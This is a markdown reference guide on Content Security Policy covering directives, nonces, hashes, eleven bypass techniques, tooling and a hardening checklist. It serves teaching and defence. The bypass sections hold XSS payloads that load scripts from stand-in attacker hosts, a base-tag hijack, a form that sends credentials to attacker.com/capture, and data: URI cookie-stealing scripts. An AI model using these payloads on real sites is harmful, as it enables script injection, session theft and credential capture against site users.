

# Content Security Policy (CSP)

> **CSP is the most powerful browser security header — and also one of the most commonly misconfigured.**

---

## 🧠 What Is It? (Beginner Explanation)

CSP is a header that tells the browser: "Only run scripts from these places, only load images from these places, only connect to these APIs." It's a whitelist-based defense that significantly limits what an attacker can do even if they achieve XSS.

**Without CSP:**
```html
<!-- Attacker's XSS payload -->
<script src="https://attacker.com/steal.js"></script>
<!-- Browser happily loads it! -->
```

**With CSP `script-src 'self'`:**
```html
<!-- Same payload -->
<script src="https://attacker.com/steal.js"></script>
<!-- Browser: "attacker.com not in my script-src whitelist" → BLOCKED -->
```

CSP is a **defense in depth** measure — it's not a substitute for input sanitization, but a safety net when sanitization fails.

---

## 🏗️ How CSP Is Delivered

### Option 1: HTTP Header (Preferred)

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; img-src *; report-uri /csp-report
```

### Option 2: Meta Tag (Limited)

```html
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self'">
```

**Meta tag limitations:**
- Cannot use `frame-ancestors` (must be in HTTP header)
- Cannot use `report-uri` / `report-to` (no reporting)
- Does not protect against header injection
- Applied after initial HTML parsing begins (small window)

---

## ⚙️ All CSP Directives Explained

### Resource Loading Directives

| Directive      | Controls                                  | Example                                          |
|----------------|-------------------------------------------|--------------------------------------------------|
| `default-src`  | Fallback for all unspecified directives   | `default-src 'self'`                             |
| `script-src`   | JavaScript sources                        | `script-src 'self' https://cdn.example.com`      |
| `style-src`    | CSS sources                               | `style-src 'self' https://fonts.googleapis.com`  |
| `img-src`      | Image sources                             | `img-src 'self' data: https://images.example.com`|
| `font-src`     | Font sources                              | `font-src 'self' https://fonts.gstatic.com`      |
| `connect-src`  | XHR, fetch, WebSocket, EventSource       | `connect-src 'self' https://api.example.com`     |
| `media-src`    | Audio and video                           | `media-src 'self' https://cdn.example.com`       |
| `object-src`   | Flash, applets, embed (critical!)         | `object-src 'none'`                              |
| `frame-src`    | iframes loaded by this page               | `frame-src 'self' https://widget.example.com`    |
| `child-src`    | Workers and iframes (older spec)          | `child-src 'self'`                               |
| `worker-src`   | Web Workers, Service Workers              | `worker-src 'self'`                              |
| `manifest-src` | App manifest files                        | `manifest-src 'self'`                            |
| `prefetch-src` | Resources prefetched                      | `prefetch-src 'self'`                            |

### Navigation & Embedding Directives

| Directive        | Controls                                      | Why It's Critical                                    |
|------------------|-----------------------------------------------|------------------------------------------------------|
| `form-action`    | Where forms can submit to                     | **Missing = attacker can redirect form submissions** |
| `base-uri`       | Allowed values for `<base href>`              | **Missing = base tag injection hijacks relative URLs**|
| `frame-ancestors`| Who can embed this page in an iframe         | Prevents clickjacking (replaces X-Frame-Options)     |
| `navigate-to`    | Where page can navigate to                   | Experimental; limits navigation-based attacks        |

### Reporting Directives

| Directive    | Function                                                        |
|--------------|-----------------------------------------------------------------|
| `report-uri` | Legacy: URL to POST JSON violation reports to                  |
| `report-to`  | Modern: Uses Reporting API (group-based, buffered)             |

```http
# Legacy reporting
Content-Security-Policy: default-src 'self'; report-uri https://csp.example.com/report

# Modern reporting (CSP Level 3)
Report-To: {"group":"csp-endpoint","max_age":10886400,"endpoints":[{"url":"https://csp.example.com/report"}]}
Content-Security-Policy: default-src 'self'; report-to csp-endpoint
```

---

## ⚙️ Source Values Reference

| Value              | Meaning                                                                      |
|--------------------|------------------------------------------------------------------------------|
| `'self'`           | Same origin (exact scheme + host + port)                                    |
| `'none'`           | Block everything for this directive                                          |
| `'unsafe-inline'`  | Allow inline scripts/styles (dangerous!)                                    |
| `'unsafe-eval'`    | Allow eval(), setTimeout(str), new Function(str) etc.                       |
| `'unsafe-hashes'`  | Allow specific hashed event handlers (onclick="...")                        |
| `'strict-dynamic'` | Trust scripts loaded by trusted scripts (+ nonce/hash)                      |
| `https:`           | Any HTTPS source                                                             |
| `data:`            | data: URIs (dangerous for scripts!)                                          |
| `blob:`            | blob: URIs                                                                   |
| `*`                | Wildcard (any URL except data:, blob:, filesystem:)                          |
| `https://cdn.com`  | Specific origin                                                              |
| `https://*.cdn.com`| Wildcard subdomain                                                           |
| `'nonce-base64val'`| Allow scripts with matching nonce attribute                                 |
| `'sha256-hashval'` | Allow scripts with matching hash                                             |

---

## ⚙️ Nonces — How They Work

A nonce is a random, single-use value that proves a script is server-authorized:

```python
# Server generates nonce per request
import secrets
nonce = secrets.token_urlsafe(32)
# Example: "rAnd0mStr1ng..."

# Server sends CSP header with nonce
response.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}'"

# Server includes nonce in trusted script tags
html = f'<script nonce="{nonce}">var x = 1;</script>'
```

```http
Content-Security-Policy: script-src 'nonce-rAnd0mStr1ng...'
```

```html
<!-- Only this executes (has matching nonce) -->
<script nonce="rAnd0mStr1ng...">console.log('trusted');</script>

<!-- This is blocked (no nonce) -->
<script>alert(document.cookie)</script>

<!-- This is blocked (wrong nonce) -->
<script nonce="wrongnonce">alert(document.cookie)</script>
```

**Requirements for nonce security:**
- Must be **cryptographically random** (min 128 bits entropy)
- Must be **unique per request** — never reuse!
- Must not be guessable from any public information
- Must not appear in error messages, logs accessible to attacker

---

## ⚙️ Hashes — Script Integrity

Instead of `'unsafe-inline'`, whitelist specific scripts by their SHA hash:

```bash
# Calculate hash for inline script
echo -n "var x = 1;" | openssl sha256 -binary | base64
# Output: RFWPLDbv2BY+rCkDzsE+0fr8ylGr2R2faWMhq4lfEQc=
```

```http
Content-Security-Policy: script-src 'sha256-RFWPLDbv2BY+rCkDzsE+0fr8ylGr2R2faWMhq4lfEQc='
```

```html
<!-- Exact match required — even whitespace difference breaks it -->
<script>var x = 1;</script>  ← Allowed
<script>var x = 1; </script> ← Blocked (different hash due to trailing space)
```

**When to use hashes:** When you have static inline scripts that can't be moved to external files. Often used for small initialization scripts.

---

## 💥 CSP Bypass Techniques

### 1. JSONP Endpoint on Whitelisted Domain

If `cdn.example.com` is whitelisted and has a JSONP endpoint:

```http
Content-Security-Policy: script-src 'self' https://www.google-analytics.com
```

```html
<!-- XSS payload that exploits JSONP on whitelisted google-analytics.com -->
<!-- Find JSONP endpoint: -->
<script src="https://www.google-analytics.com/gtm/js?id=GTM-XXXX&callback=alert"></script>
<!--                                                            ^^^^^^^^^^^^^^^^^ -->
```

```bash
# Find JSONP on whitelisted domain
# Use wayback machine, JS files, source code
# Common JSONP-having CDNs historically: ajax.googleapis.com, maps.googleapis.com
curl "https://allowed-domain.com/api/data?callback=alert" | head -1
# If: alert({"data": "..."}) → JSONP bypass!
```

---

### 2. AngularJS Template Injection Bypass

If Angular is loaded from a whitelisted domain AND `unsafe-eval` is not required (Angular 1.x parses templates in DOM):

```http
Content-Security-Policy: script-src https://ajax.googleapis.com 'nonce-abc'
```

```html
<!-- Angular 1.x template injection bypasses CSP when angular is whitelisted! -->
<div ng-app>
  {{constructor.constructor('alert(document.domain)')()}}
</div>

<!-- With Angular loaded from googleapis.com (whitelisted) -->
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.7.9/angular.min.js"></script>
```

---

### 3. Open Redirect on Whitelisted Domain

```http
Content-Security-Policy: script-src https://trusted.com
```

If `trusted.com` has an open redirect at `/redirect?url=`:

```html
<!-- Load attacker script via redirect on trusted domain -->
<script src="https://trusted.com/redirect?url=https://attacker.com/evil.js"></script>
```

The browser follows the redirect and loads attacker's script — but the *initial* request was to trusted.com, which is whitelisted.

---

### 4. base-uri Missing → Base Tag Injection

**Without `base-uri` in CSP:**

```html
<!-- Attacker injects via XSS or HTML injection -->
<base href="https://attacker.com/">

<!-- Now all relative URLs become: -->
<script src="/jquery.min.js">
<!-- Becomes: https://attacker.com/jquery.min.js — ATTACKER CONTROLS! -->
```

**PoC:**
```html
<!-- CSP: script-src 'self' 'nonce-abc' (no base-uri!) -->
<base href="https://attacker.com/">
<script nonce="abc" src="/app.js"></script>
<!-- Loads https://attacker.com/app.js instead of self/app.js! -->
```

**Fix:**
```http
Content-Security-Policy: base-uri 'self';
```

---

### 5. form-action Missing → Steal Credentials

**Without `form-action` in CSP:**

```html
<!-- Attacker modifies form action via XSS or HTML injection -->
<form action="https://attacker.com/capture" method="POST">
  <input name="username">
  <input name="password" type="password">
  <input type="submit">
</form>
```

Even with `script-src 'none'`, form submissions bypass script restrictions! The form data is sent to the attacker.

**Fix:**
```http
Content-Security-Policy: form-action 'self';
```

---

### 6. Wildcard Subdomain Abuse

```http
Content-Security-Policy: script-src *.example.com
```

If attacker can take over ANY subdomain of `example.com` (XSS on sub.example.com, subdomain takeover):

```html
<!-- Load attacker-controlled script from compromised subdomain -->
<script src="https://compromised.example.com/evil.js"></script>
```

**Or via user-controlled subdomain in multi-tenant apps:**
- `attacker.example.com` serves attacker content
- CSP allows `*.example.com`
- Bypass!

---

### 7. CDN Bypass

If popular CDN domains are whitelisted (unpkg, cdnjs, jsdelivr), attackers can often upload or reference attacker-controlled content:

```http
Content-Security-Policy: script-src https://unpkg.com https://cdnjs.cloudflare.com
```

```html
<!-- unpkg serves ANY npm package — attacker publishes a package! -->
<script src="https://unpkg.com/attacker-package@1.0.0/evil.js"></script>

<!-- cdnjs - more curated but still large surface -->
<!-- Older versions of legitimate libraries may have known XSS gadgets -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.min.js"></script>
```

---

### 8. data: URI Bypass

```http
Content-Security-Policy: script-src 'self' data:
```

If `data:` is allowed in `script-src`:

```html
<script src="data:text/javascript,alert(document.cookie)"></script>
```

Or via encoded injection:
```html
<script src="data:,alert(1)"></script>
```

**Fix:** Never include `data:` in `script-src`.

---

### 9. object-src Missing or 'self'

Flash/Java applets/PDFs can execute JavaScript and bypass `script-src`:

```http
Content-Security-Policy: script-src 'self'
# object-src not specified → inherits from default-src or allows anything!
```

```html
<!-- PDF with JavaScript can bypass script-src! -->
<object data="evil.pdf" type="application/pdf"></object>

<!-- Flash (historical but important) -->
<embed src="https://attacker.com/evil.swf" type="application/x-shockwave-flash">
```

**Fix:**
```http
Content-Security-Policy: default-src 'self'; object-src 'none';
```

---

### 10. Nonce Leakage / Reuse

**If nonce is predictable:**
```python
# BAD: predictable nonce
import time
nonce = str(int(time.time()))  # Timestamp — easily guessable!

# BAD: same nonce for all users (shared state)
NONCE = "abc123"  # Generated once at startup
```

**If nonce appears in the URL/referrer:**
```html
<!-- Nonce in URL bar → leaks via Referer header to third-party resources! -->
<!-- /page?nonce=abc123 → Referer: https://victim.com/page?nonce=abc123 -->
```

**If nonce is reused across requests:**
```html
<!-- Attacker learns nonce from one request (e.g., via XS-Leak, timing) -->
<!-- Reuses it in injected script tag -->
<script nonce="abc123">evil code</script>
```

---

### 11. 'strict-dynamic' + Trusted Script Loading

With `'strict-dynamic'`:
```http
Content-Security-Policy: script-src 'nonce-abc' 'strict-dynamic'
```

Scripts loaded by nonce-whitelisted scripts are automatically trusted. If attacker can control the URL passed to `document.createElement('script')` in a trusted script:

```javascript
// Trusted (nonce-whitelisted) script in app code:
function loadScript(url) {
    const s = document.createElement('script');
    s.src = url;  // ← if url comes from user input / URL params
    document.head.appendChild(s);
}
loadScript(location.hash.slice(1));  // ← DOM-based XSS + CSP bypass!
// Attacker: https://victim.com/page#https://attacker.com/evil.js
```

---

## 📊 CSP Security Levels



---

## ⚙️ Strict CSP Template (Recommended)

```http
Content-Security-Policy: 
  default-src 'self';
  script-src 'nonce-{RANDOM}' 'strict-dynamic' https: 'unsafe-inline';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' https://api.example.com;
  media-src 'self';
  object-src 'none';
  frame-src 'self';
  frame-ancestors 'self';
  form-action 'self';
  base-uri 'self';
  upgrade-insecure-requests;
  report-uri https://csp.example.com/report;
```

> The `https: 'unsafe-inline'` in script-src is ignored in browsers that support nonces — it's a backwards-compatibility fallback for very old browsers.

---

## ⚙️ Report-Only Mode — Testing Without Breaking

Deploy CSP without enforcing it first — violations are reported but not blocked:

```http
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-violations
```

**Workflow:**
1. Deploy `Report-Only` with desired policy
2. Monitor violation reports for 1-2 weeks
3. Fix legitimate violations in application code
4. Switch to enforcement `Content-Security-Policy`

---

## 🛠️ Tools

```bash
# Analyze CSP with Google CSP Evaluator (command line)
curl -s "https://csp-evaluator.withgoogle.com/getCSP?url=https://target.com" | jq

# Manual analysis — extract CSP from site
curl -sI https://target.com | grep -i "content-security-policy"

# Burp Suite — CSP auditor in "Target → Issues"
# Automatically identifies weak policies like 'unsafe-inline', 'unsafe-eval', wildcard sources

# nikto checks for missing security headers
nikto -h https://target.com

# securityheaders.com check (via curl)
curl "https://securityheaders.com/?q=https://target.com&hide=on" | grep "CSP"
```

### CSP Bypass Tool

```bash
# CSP auditor — checks for known bypasses
# https://github.com/nicktacular/CSP-Bypass
python csp_bypass.py --url https://target.com

# Manual: check for JSONP on whitelisted domains
# Extract whitelist from CSP
curl -sI https://target.com | grep -i content-security-policy | \
  grep -oP "'https?://[^']+'" | sort -u

# For each whitelisted domain, test for JSONP
for domain in $(extract_whitelist); do
  curl -s "$domain/api?callback=x" | head -1
done
```

---

## 🔍 Detection

| Issue                  | How to Detect                                                       |
|------------------------|---------------------------------------------------------------------|
| CSP violation          | `report-uri` violation reports from browser                         |
| Weak CSP               | CSP evaluator flags; CI/CD security header scanner                  |
| Missing CSP            | Automated header scanner in deployment pipeline                     |
| 'unsafe-inline'        | CSP header contains literal string 'unsafe-inline'                  |
| 'unsafe-eval'          | CSP header contains 'unsafe-eval'                                   |
| Wildcard source        | CSP contains `*` or `https:` without further restriction            |
| Missing object-src     | CSP has no `object-src` directive and no strict `default-src`       |

---

## 🛡️ Mitigation

### Full Hardened CSP Implementation (Nginx)

```nginx
# Generate nonce in Nginx with lua-nginx-module
set $csp_nonce $request_id;  # or use ngx_http_lua_module for proper random

add_header Content-Security-Policy 
  "default-src 'self'; 
   script-src 'nonce-$csp_nonce' 'strict-dynamic'; 
   object-src 'none'; 
   base-uri 'self'; 
   form-action 'self'; 
   frame-ancestors 'none';
   upgrade-insecure-requests;
   report-uri /csp-report;" 
  always;
```

### CSP Security Checklist

- [ ] `default-src 'self'` — safe default
- [ ] `script-src` uses nonces or hashes — NO `'unsafe-inline'` or `'unsafe-eval'`
- [ ] `object-src 'none'` — disables Flash/applets/embeds
- [ ] `base-uri 'self'` — prevents base tag injection
- [ ] `form-action 'self'` — prevents form hijacking
- [ ] `frame-ancestors 'none'` or `'self'` — prevents clickjacking
- [ ] No `data:` in `script-src`
- [ ] No wildcard (`*`) in `script-src`
- [ ] Nonce is cryptographically random and per-request
- [ ] `report-uri` configured for violation monitoring
- [ ] Tested with CSP Evaluator before enforcement

---

## 📚 References

- [MDN — Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
- [MDN — CSP Guide](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [PortSwigger — CSP Bypass Techniques](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)
- [OWASP CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [W3C CSP Level 3 Spec](https://www.w3.org/TR/CSP3/)
- [Strict CSP — Google Security Blog](https://web.dev/articles/strict-csp)
- [CSP Bypass Techniques — Hacking with CSP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)
